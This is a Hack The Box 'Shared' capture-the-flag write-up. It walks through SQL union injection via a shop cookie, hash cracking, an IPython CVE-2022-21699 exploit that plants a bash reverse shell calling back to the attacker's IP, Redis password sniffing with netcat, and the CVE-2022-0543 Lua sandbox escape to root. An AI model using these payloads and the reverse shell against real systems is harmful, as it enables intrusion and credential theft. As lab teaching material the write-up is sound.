



# Shared

## Summary

Running an `nmap` scan finds SSH and a basic online shop powered by [PrestaShop](https://www.prestashop.com) at `https://shared.htb`. We add an item to the cart and try to checkout, which redirects us to `checkout.shared.htb`. The website knows which items are in our cart through a `custom_cart` cookie on the `shared.htb` domain. The cookie references the product code and the quantity that is in our cart. We manually perform a [SQL union injection attack](https://portswigger.net/web-security/sql-injection/union-attacks) on this cookie and read a username and password hash, which can be cracked using [CrackStation](https://crackstation.net/), from the database. With our credentials, we connect to the machine via SSH as the `james_mason` user.

Now that we are on the box, we run [pspy](https://github.com/DominicBreuker/pspy) and see `ipython` being executed on a schedule in a specific directory as the `dan_smith` user. Since the box is using `ipython` version `8.0.0`, we use [CVE-2022-21699](https://nvd.nist.gov/vuln/detail/CVE-2022-21699) ([GitHub advisory with proof-of-concept exploit](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x)) and get a reverse shell as `dan_smith`. We can now get the `user.txt` flag.

To escalate to `root`, we try connecting to a redis server we noticed when we ran `pspy` earlier. The redis server needs a password, so we run [LinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md) and find that we can execute `/usr/local/bin/redis_connector_dev`. The script is able to execute the `info` command on the redis server so it must have the password stored within it. From the [redis documentation](https://redis.io/docs/manual/security/#authentication), we know that the password is sent in plain-text. So, we use netcat to capture the password from the program and then we use it to authenticate to the redis server running on the box. We try several exploits from HackTricks, but the [LUA sandbox bypass](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#lua-sandbox-bypass) ends up working. This is [CVE-2022-0543](https://nvd.nist.gov/vuln/detail/CVE-2022-0543) and a simple script is available at [aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543). We modify the script to use our password and then we get the `root.txt` flag!

## Enumeration

### Nmap

First, let's scan for open ports using `nmap`. We can quickly scan for open ports and store them in a variable: `ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.172 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`. Then, we can scan those specific ports in depth by running `nmap`'s built-in scripts: `nmap -p$ports -sC -sV 10.10.11.172`.

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)
|   256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)
|_  256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to http://shared.htb
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
| tls-nextprotoneg:
|   h2
|_  http/1.1
|_http-server-header: nginx/1.18.0
| tls-alpn:
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after:  2042-03-15T13:37:14
|_http-title: Did not follow redirect to https://shared.htb
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap shows a redirect to `shared.htb`, so let's add that domain to `/etc/hosts`: `echo "10.10.11.172 shared.htb" | sudo tee -a /etc/hosts`.

### Nginx (Port `80` & `443`)

The HTTP version redirects to the HTTPS version. Looks like we have a basic online shop powered by [PrestaShop](https://www.prestashop.com) (see footer):


The main page references a new checkout page (see above), so we should definitely investigate that.

Searching for "prestashop vulnerabilities" finds [Major Security Vulnerability on PrestaShop Websites](https://build.prestashop.com/news/major-security-vulnerability-on-prestashop-websites/) and [Prestashop Security Issues: Top 7 Most Common Prestashop Attacks](https://www.getastra.com/blog/prestashop-security/prestashop-security-issues/), which might be helpful later.

#### OWASP ZAP

I haven't used [OWASP ZAP](https://www.zaproxy.org/) before and it seems like a cool tool. In ZAP, perform an automated scan against `https://shared.htb/index.php`. Make sure you have the beta and alpha "Active scanner rules" plugins installed so ZAP can detect more vulnerabilities. Then, create a policy with a low default threshold and a low attack strength. Apply those levels to all the rules in that policy. In Tools > Options, increase the "Concurrent Scanning Threads per Host" to something like 20 to [speed up scan times](https://blog.mozilla.org/security/2013/07/10/how-to-speed-up-owasp-zap-scans/). Additionally, in the tree on the left, you can right click a node and select Exclude from > Scanner to remove it from the scan and make the scan faster by only scanning the necessary components. Finally, run a new scan with your newly created policy against `https://shared.htb`.



Here is the complete progress table:

|                                            | Strength | Progress | Elapsed   | Reqs  | Alerts | Status                       |
|--------------------------------------------|----------|----------|-----------|-------|--------|------------------------------|
| Analyser                                   |          |          | 00:14.895 | 106   |        |                              |
|                                            |          |          |           |       |        |                              |
| Plugin                                     |          |          |           |       |        |                              |
| Path Traversal                             | Low      | 100      | 00:38.579 | 405   | 11     | Completed                    |
| Remote File Inclusion                      | Low      | 100      | 00:27.468 | 260   | 0      | Completed                    |
| Source Code Disclosure - /WEB-INF folder   | Low      | 100      | 00:00.346 | 2     | 0      | Completed                    |
| External Redirect                          | Low      | 100      | 00:14.385 | 156   | 0      | Completed                    |
| Server Side Include                        | Low      | 100      | 00:23.401 | 208   | 0      | Completed                    |
| Cross Site Scripting (Reflected)           | Low      | 100      | 01:21.525 | 708   | 0      | Completed                    |
| Cross Site Scripting (Persistent) - Prime  | Low      | 100      | 00:06.167 | 52    | 0      | Completed                    |
| Cross Site Scripting (Persistent) - Spider | Low      | 100      | 00:04.903 | 187   | 0      | Completed                    |
| Cross Site Scripting (Persistent)          | Low      | 100      | 00:03.520 | 0     | 0      | Completed                    |
| SQL Injection                              | Low      | 100      | 00:35.812 | 390   | 2      | Completed                    |
| Server Side Code Injection                 | Low      | 100      | 00:37.159 | 416   | 0      | Completed                    |
| Remote OS Command Injection                | Low      | 100      | 01:08.598 | 780   | 0      | Completed                    |
| Directory Browsing                         | Low      | 100      | 00:15.279 | 187   | 0      | Completed                    |
| Buffer Overflow                            | Low      | 100      | 00:06.292 | 52    | 0      | Completed                    |
| Format String Error                        | Low      | 100      | 00:17.474 | 144   | 0      | Completed                    |
| CRLF Injection                             | Low      | 100      | 00:31.252 | 364   | 0      | Completed                    |
| Parameter Tampering                        | Low      | 100      | 00:41.855 | 364   | 0      | Completed                    |
| ELMAH Information Leak                     | Low      | 100      | 00:00.104 | 1     | 1      | Completed                    |
| .htaccess Information Leak                 | Low      | 100      | 00:03.139 | 67    | 66     | Completed                    |
| Script Active Scan Rules                   | Low      | 100      | 00:00.002 | 0     | 0      | Skipped, no scripts enabled. |
| Source Code Disclosure - Git               | Low      | 100      | 00:03.102 | 0     | 0      | Completed                    |
| Source Code Disclosure - File Inclusion    | Low      | 100      | 00:08.195 | 104   | 0      | Completed                    |
| Remote Code Execution - Shell Shock        | Low      | 100      | 00:09.918 | 104   | 0      | Completed                    |
| Httpoxy - Proxy Header Misuse              | Low      | 100      | 00:30.581 | 1305  | 0      | Completed                    |
| Cross-Domain Misconfiguration              | Low      | 100      | 00:00.482 | 2     | 0      | Completed                    |
| Heartbleed OpenSSL Vulnerability           | Low      | 100      | 00:00.843 | 5     | 0      | Completed                    |
| Source Code Disclosure - CVE-2012-1823     | Low      | 100      | 00:05.836 | 160   | 0      | Completed                    |
| Remote Code Execution - CVE-2012-1823      | Low      | 100      | 00:19.512 | 374   | 0      | Completed                    |
| Session Fixation                           | Low      | 100      | 00:02.833 | 0     | 0      | Completed                    |
| SQL Injection - MySQL                      | Low      | 100      | 00:18.062 | 208   | 0      | Completed                    |
| SQL Injection - Hypersonic SQL             | Low      | 100      | 00:21.231 | 208   | 0      | Completed                    |
| SQL Injection - Oracle                     | Low      | 100      | 00:19.905 | 208   | 0      | Completed                    |
| SQL Injection - PostgreSQL                 | Low      | 100      | 00:20.243 | 208   | 0      | Completed                    |
| SQL Injection - SQLite                     | Low      | 100      | 00:13.886 | 104   | 0      | Completed                    |
| Cross Site Scripting (DOM Based)           | Low      | 100      | 01:44.250 | 0     | 0      | Skipped, by user action.     |
| SQL Injection - MsSQL                      | Low      | 100      | 00:05.257 | 90    | 0      | Completed                    |
| XPath Injection                            | Low      | 100      | 00:12.339 | 156   | 0      | Completed                    |
| XML External Entity Attack                 | Low      | 100      | 00:03.299 | 0     | 0      | Completed                    |
| Generic Padding Oracle                     | Low      | 100      | 00:03.686 | 0     | 0      | Completed                    |
| Expression Language Injection              | Low      | 100      | 00:04.947 | 52    | 0      | Completed                    |
| Cloud Metadata Potentially Exposed         | Low      | 100      | 00:00.483 | 1     | 1      | Completed                    |
| Source Code Disclosure - SVN               | Low      | 100      | 00:04.496 | 145   | 132    | Completed                    |
| Relative Path Confusion                    | Low      | 100      | 00:03.488 | 39    | 0      | Completed                    |
| Backup File Disclosure                     | Low      | 100      | 01:13.116 | 1790  | 83     | Completed                    |
| HTTP Only Site                             | Low      | 100      | 00:00.014 | 0     | 0      | Completed                    |
| Anti-CSRF Tokens Check                     | Low      | 100      | 00:03.952 | 22    | 22     | Completed                    |
| Integer Overflow Error                     | Low      | 100      | 00:20.905 | 189   | 7      | Completed                    |
| Proxy Disclosure                           | Low      | 100      | 00:36.839 | 1496  | 104    | Completed                    |
| Trace.axd Information Leak                 | Low      | 100      | 00:03.199 | 67    | 12     | Completed                    |
| .env Information Leak                      | Low      | 100      | 00:03.093 | 67    | 67     | Completed                    |
| Hidden File Finder                         | Low      | 100      | 00:07.619 | 44    | 1      | Completed                    |
| XSLT Injection                             | Low      | 100      | 00:09.868 | 114   | 0      | Completed                    |
| Insecure HTTP Method                       | Low      | 100      | 00:10.245 | 187   | 0      | Completed                    |
| HTTPS Content Available via HTTP           | Low      | 100      | 00:04.904 | 174   | 25     | Completed                    |
| GET for POST                               | Low      | 100      | 00:03.225 | 5     | 0      | Completed                    |
| User Agent Fuzzer                          | Low      | 100      | 00:41.962 | 484   | 464    | Skipped, by user action.     |
| HTTP Parameter Pollution                   | Low      | 100      | 00:04.783 | 10    | 0      | Completed                    |
| Possible Username Enumeration              | Low      | 100      | 00:00.001 | 0     | 0      | Skipped                      |
| Cookie Slack Detector                      | Low      | 100      | 00:16.495 | 738   | 184    | Completed                    |
| Server Side Template Injection             | Low      | 100      | 00:20.898 | 212   | 0      | Completed                    |
| Server Side Template Injection (Blind)     | Low      | 100      | 00:57.817 | 650   | 0      | Completed                    |
|                                            |          |          |           |       |        |                              |
| Totals                                     |          |          | 18:30.655 | 17940 | 1183   |                              |

The "Path Traversal" seems to be a false positive (it had a "low" confidence). We can check the SQL Injection as well with [sqlmap](https://sqlmap.org/). However, running `sqlmap -u "https://shared.htb/index.php?controller=category&id_category=1" --random-agent --batch -p id_category --level 3 --risk 2` doesn't find anything.

#### Exploring the Website

Alright, that's enough messing around with ZAP. Let's explore the application. Let's add an item to the cart:


Clicking "Proceed to Checkout" redirects to `checkout.shared.htb`. So, let's add that to our `/etc/hosts`: `echo "10.10.11.172 checkout.shared.htb" | sudo tee -a /etc/hosts`.


Since we found this virtual host, let's scan for others with `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://shared.htb/ -H "Host: FUZZ.shared.htb" -fs 169`:

```
www                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 46ms]
checkout                [Status: 200, Size: 3229, Words: 1509, Lines: 65, Duration: 30ms]
:: Progress: [114441/114441] :: Job [1/1] :: 1267 req/sec :: Duration: [0:01:32] :: Errors: 0 ::
```

This only finds `www` so nothing interesting.

Anyway, clicking "Pay" on `checkout.shared.htb` only shows an alert message and does nothing else, as shown by the HTML for the "Pay" button: `<a href="#" class="btn btn-success my-3" onclick="alert('Your payment was successfully received');">Pay<i class="ml-2"></i></a>`.

However, looking at the request to load the page shows a `custom_cart` cookie:



The cookie is `%7B%2253GG2EF8%22%3A%221%22%7D` and URL decoding it returns `{"53GG2EF8":"1"}`. This looks like a product ID and a quantity. Sure enough, adding another item to the cart gives us `{"53GG2EF8":"1","562XZDU8":"1"}`.

## Foothold

We have a product ID, which is a good candidate for SQL injection because e-commerce sites usually "store the products and their characteristics (price, description, availability, etc)... in a database" ([source](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)). We can quickly test for a SQL injection by setting this cookie to `{"53GG2'+'EF8":"1"}`. This is a query that will evaluate to the same value originally if it is being ran as SQL. Sure enough, we get the same page. So, we have a SQL injection within this cookie.

I recommend using [BurpSuite](https://portswigger.net/burp) for the rest of this part since it makes sending the request with the URL encoded payload much easier than manually URL encoding and editing the cookie within a browser.

[This page from PortSwigger](https://portswigger.net/web-security/sql-injection) is a good introduction to SQL injections. In this case, we can use a [SQL union injection](https://portswigger.net/web-security/sql-injection/union-attacks). We will determine the number of columns in the query by appending `' ORDER BY 1-- ` and incrementing until we get a "Not Found" shown on the page. When we try `{"53GG2EF8' ORDER BY 4-- ":"1"}`, we get "Not Found," so 3 is the number of columns. The `ORDER BY` command "modifies the original query to order the results by different columns in the result set" ([source](https://portswigger.net/web-security/sql-injection/union-attacks)).

Next, we will add `AND 0=1` to prevent the first part of the query from running since `0=1` always evaluates to false. After that, we will add a `UNION SELECT` statement to see which columns are shown on the page. So, our final query if `{"53GG2EF8' and 0=1 union select 2,4,8-- ":"1"}`:



The `4` is shown under the "Product" heading, so that is the column we have control over.

We can use the `database()` function to ge the current database: `{"53GG2EF8' and 0=1 union select 2,database(),8-- ":"1"}`. This causes the "Product" column to show `checkout`, so the current database is `checkout`.

Next, we get the tables in the `checkout` database by running `{"53GG2EF8' and 0=1 union select 2,group_concat(table_name),8 from information_schema.tables WHERE table_schema = 'checkout'-- ":"1"}` (based on the command from [this StackOverflow answer](https://stackoverflow.com/a/27001800)). This gives us `user,product`.

After that, we use `{"53GG2EF8' and 0=1 union select 2,group_concat(column_name),8 from information_schema.columns WHERE table_schema = 'checkout' and table_name='user'-- ":"1"}` (based on the command from [this StackOverflow answer](https://stackoverflow.com/a/4165253)) to get the columns. As output, we get `id,username,password` in the "Product" column.

We can get the username with `{"53GG2EF8' and 0=1 union select 2,username,8 from checkout.user-- ":"1"}`: `james_mason`.

And we can get the password with `{"53GG2EF8' and 0=1 union select 2,password,8 from checkout.user-- ":"1"}`: `fc895d4eddc2fc12f995e18c865cf273`. Putting this hash into [CrackStation](https://crackstation.net/) gives us the password: `Soleil101`.

Using these credentials to connect over SSH works: `ssh james_mason@shared.htb` with password `Soleil101`.

## Lateral Movement

We reconnect using [pwncat](https://github.com/calebstewart/pwncat) to make it easy to copy files.

We run [pspy](https://github.com/DominicBreuker/pspy) and see the below output:

```
2022/08/02 17:48:44 CMD: UID=0    PID=1      | /sbin/init
2022/08/02 17:49:01 CMD: UID=0    PID=24748  | sleep 5
2022/08/02 17:49:01 CMD: UID=0    PID=24747  | /bin/bash /root/c.sh
2022/08/02 17:49:01 CMD: UID=1001 PID=24746  | /usr/bin/python3 /usr/local/bin/ipython
2022/08/02 17:49:01 CMD: UID=0    PID=24745  | /bin/sh -c /root/c.sh
2022/08/02 17:49:01 CMD: UID=1001 PID=24743  | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
2022/08/02 17:49:01 CMD: UID=0    PID=24742  | /usr/sbin/CRON -f
2022/08/02 17:49:01 CMD: UID=0    PID=24741  | /usr/sbin/CRON -f
2022/08/02 17:49:06 CMD: UID=0    PID=24757  | (s-server)
2022/08/02 17:49:32 CMD: UID=0    PID=24762  |
2022/08/02 17:50:01 CMD: UID=1001 PID=24769  | /usr/bin/pkill ipython
2022/08/02 17:50:01 CMD: UID=1001 PID=24768  | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
2022/08/02 17:50:01 CMD: UID=0    PID=24767  | sleep 5
2022/08/02 17:50:01 CMD: UID=0    PID=24766  | /bin/bash /root/c.sh
2022/08/02 17:50:01 CMD: UID=0    PID=24765  | /bin/sh -c /root/c.sh
2022/08/02 17:50:01 CMD: UID=0    PID=24764  | /usr/sbin/CRON -f
2022/08/02 17:50:01 CMD: UID=0    PID=24763  | /usr/sbin/CRON -f
2022/08/02 17:50:01 CMD: UID=1001 PID=24770  | /usr/bin/python3 /usr/local/bin/ipython
2022/08/02 17:50:06 CMD: UID=0    PID=24775  | perl -ne s/\((\d+)\)/print " $1"/ge
2022/08/02 17:50:06 CMD: UID=0    PID=24774  | pstree -p 24757
2022/08/02 17:50:06 CMD: UID=0    PID=24773  | /bin/bash /root/c.sh
2022/08/02 17:50:06 CMD: UID=0    PID=24779  |
2022/08/02 17:50:06 CMD: UID=0    PID=24780  | /usr/bin/redis-server 127.0.0.1:6379
```

We have a `redis-server` being started on localhost port `6379`. We also have `ipython` being executed in the `/opt/scripts_review/` directory, which looks promising. `ipython` is executed as UID `1001`, which is the `dan_smith` user according to `/etc/passwd`.

Running `ipython --version` tells us that it is version `8.0.0`. Searching for "" finds [the program in Snyk's vulnerability database](https://snyk.io/vuln/pip:ipython@8.0.0), which points us to [this vulnerability](https://security.snyk.io/vuln/SNYK-PYTHON-IPYTHON-2348630), which directs us to the [IPython release notes](https://ipython.readthedocs.io/en/stable/whatsnew/version8.html#ipython-8-0-1-cve-2022-21699), which talk about [CVE-2022-21699](https://nvd.nist.gov/vuln/detail/CVE-2022-21699). Version `8.0.0` is "subject to an arbitrary code execution vulnerability achieved by not properly managing cross user temporary files. This vulnerability allows one user to run code as another on the same machine." This is exactly what we want.

The [GitHub advisory](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x) contains a proof-of-concept:

```bash
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/foo.py
```

Let's edit this to create a reverse shell instead. We use the standard bash reverse shell (`bash -c 'bash -i >& /dev/tcp/10.10.14.98/49113 0>&1'`) and just pass it to `os.system()`:

```bash
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import os;os.system("bash -c '\''bash -i >& /dev/tcp/10.10.14.98/49113 0>&1'\''")' > /opt/scripts_review/profile_default/startup/foo.py
```

Start a listener with `nc -lvnp 49113` (or using `pwncat`). After a few seconds or minutes, we get a reverse shell as `dan_smith`! We can now get the `user.txt` flag by running `cat ~/user.txt`.

## Privilege Escalation

We can get persistance by grabbing `dan_smith`'s private ssh key located at `~/.ssh/id_rsa`.

We saw a redis server being executed earlier. Looking at the open ports with `netstat -lntu` shows the following:

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
udp        0      0 0.0.0.0:68              0.0.0.0:*
```

Sure enough, port `6379` is open. Port `3306`, which is the default MariaDB port, is also open. That is likely the database that we were able to inject to get access to the box as `james_mason`.

We find the credentials to the database in `/var/www/checkout.shared.htb/config/db.php`, but it doesn't contain any new information.

```php
$ cat /var/www/checkout.shared.htb/config/db.php
<?php
define('DBHOST','localhost');
define('DBUSER','checkout');
define('DBPWD','a54$K_M4?DdT^HUk');
define('DBNAME','checkout');
?>
```

Back to `redis`. Looking at [HackTrick's guide for redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis), the first thing we should do is connect with `redis-cli`, which is installed on the box for us, and run `info`:

```
$ redis-cli
127.0.0.1:6379> info
NOAUTH Authentication required.
127.0.0.1:6379>
```

Looks like we are going to need some credentials.

Upload [LinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md) and run with `./linpeas.sh -a 2>&1 | tee linpeas_report.txt`. Download the report with `download linepeas_report.txt` in the local terminal within `pwncat`. You can open [linpeas_report.txt](./linpeas_report.txt) with `less -R linpeas_report.txt`.

LinPEAS finds this:

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root dan_smith 33 Aug  2 16:24 /home/dan_smith/user.txt
-rwxr-x--- 1 root sysadmin 5974154 Mar 20 09:41 /usr/local/bin/redis_connector_dev
```

This is a file at `/usr/local/bin/redis_connector_dev` that we can read. Simply executing the file shows the following:

```
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:65360
run_id:7c6ac532f6b9c8ffbd6e325998267f7f72170a6a
tcp_port:6379
uptime_in_seconds:18
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:15312797
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```

The script is able to execute the `info` command on the `redis` server so it must have the password stored within it (or it reads it from somewhere). We download the file with `pwncat`: [redis_connector_dev](redis_connector_dev).

```
$ file redis_connector_dev
Machines/Shared/redis_connector_dev: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=sdGIDsCGb51jonJ_67fq/_JkvEmzwH9g6f0vQYeDG/iH1iXHhyzaDZJ056wX9s/7UVi3T2i2LVCU8nXlHgr, not stripped
```

Running `strings` on the binary is useless since it is so large. The [redis documentation](https://redis.io/docs/manual/security/#authentication) says "When the authorization layer is enabled, Redis will refuse any query by unauthenticated clients. A client can authenticate itself by sending the AUTH command followed by the password... Since **the AUTH command, like every other Redis command, is sent unencrypted**, it does not protect against an attacker that has enough access to the network to perform eavesdropping."

So, we should be able to set up a netcat listener on the default redis port and see the password printed out for us. Start the listener with `nc -nvlp 6379` and then run the binary:

```
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35308
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

It seems like `F2WHqJUz2WEz=Gqq` is the password.

Back on the target machine, we run `redis-cli` again to connect. We can use the `AUTH` command to authenticate, but we need a username? The shell makes it look like we do, but the username is optional, which is clarified in the [`AUTH` command documentation](https://redis.io/commands/auth/). [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-authentication) also has some details about authentication.

Running `AUTH F2WHqJUz2WEz=Gqq` authenticates us and then we run the `info` command to see that the redis version is `6.0.15`. Looking at the [changelog](https://github.com/redis/redis/blob/6.0/00-RELEASENOTES), we see that version `6.0.16` patched 8 CVEs, so any one of those might be helpful:

Security Fixes:

* (CVE-2021-41099) Integer to heap buffer overflow handling certain string
  commands and network payloads, when proto-max-bulk-len is manually configured
  to a non-default, very large value [reported by yiyuaner].
* (CVE-2021-32762) Integer to heap buffer overflow issue in redis-cli and
  redis-sentinel parsing large multi-bulk replies on some older and less common
  platforms [reported by Microsoft Vulnerability Research].
* (CVE-2021-32687) Integer to heap buffer overflow with intsets, when
  set-max-intset-entries is manually configured to a non-default, very large
  value [reported by Pawel Wieczorkiewicz, AWS].
* (CVE-2021-32675) Denial Of Service when processing RESP request payloads with
  a large number of elements on many connections.
* (CVE-2021-32672) Random heap reading issue with Lua Debugger [reported by
  Meir Shpilraien].
* (CVE-2021-32628) Integer to heap buffer overflow handling ziplist-encoded
  data types, when configuring a large, non-default value for
  hash-max-ziplist-entries, hash-max-ziplist-value, zset-max-ziplist-entries
  or zset-max-ziplist-value [reported by sundb].
* (CVE-2021-32627) Integer to heap buffer overflow issue with streams, when
  configuring a non-default, large value for proto-max-bulk-len and
  client-query-buffer-limit [reported by sundb].
* (CVE-2021-32626) Specially crafted Lua scripts may result with Heap buffer
  overflow [reported by Meir Shpilraien].

From HackTricks, I try the [load redis module](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module) section, but that doesn't work:

```
127.0.0.1:6379> MODULE LOAD /tmp/module.so
(error) ERR Error loading the extension. Please check the server logs.
```

Under the [LUA sandbox bypass](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#lua-sandbox-bypass) heading, HackTricks links to [aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543), which exploits [CVE-2022-0543](https://nvd.nist.gov/vuln/detail/CVE-2022-0543).

We get the linked repo setup by running these commands:

```
git clone https://github.com/aodsec/CVE-2022-0543.git
cd CVE-2022-0543
python -m venv env
source env/bin/activate
python -m pip install redis
```

However, before we can run it we need to forward the redis port to our attacker machine, which we can do using [chisel](https://github.com/jpillora/chisel). Run `./chisel server -p 34295 --reverse` on your attacker machine and then run `./chisel client 10.10.14.98:34295 R:6379:127.0.0.1:6379` on the target. You can upload `chisel` easily with pwncat by running `upload tools/chisel` in the local shell of pwncat.

Finally, run the exploit script with `python CVE-2022-0543.py`. This produces an error: `redis.exceptions.AuthenticationError: Authentication required` because we didn't provide our password. We can easily modify the scipt and add the password by changing this line `r  =  redis.Redis(host = ip,port = port)` to this `r  =  redis.Redis(host = ip,port = port,password="F2WHqJUz2WEz=Gqq")` (password argument name found in [this StackOverflow answer](https://stackoverflow.com/a/30153367)).

Now, we can actually run the exploit script:

```
Please input redis ip:
>>127.0.0.1
Please input redis port:
>>6379
input exec cmd:(q->exit)
>>whoami
b'root\n'
input exec cmd:(q->exit)
>>ls
b'dump.rdb\n'
input exec cmd:(q->exit)
>>pwd
b'/var/lib/redis\n'
input exec cmd:(q->exit)
>>cat /root/root.txt
b'28...9c\n'
input exec cmd:(q->exit)
```

Run `/root/root.txt` to get the `root.txt` flag.
